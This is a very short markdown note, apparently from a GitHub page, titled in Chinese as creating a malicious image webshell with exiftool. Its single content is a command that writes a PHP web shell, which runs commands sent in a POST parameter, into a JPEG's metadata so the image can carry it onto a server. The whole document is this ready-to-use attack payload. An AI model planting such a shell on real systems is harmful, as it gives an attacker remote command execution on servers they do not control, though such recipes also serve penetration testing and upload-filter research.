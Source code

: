 # 通过exiftool 在其中创建恶意图像马

### 
```
exiftool poc.jpg -documentname="<?php echo exec(\$_POST['cmd']); ?>"
```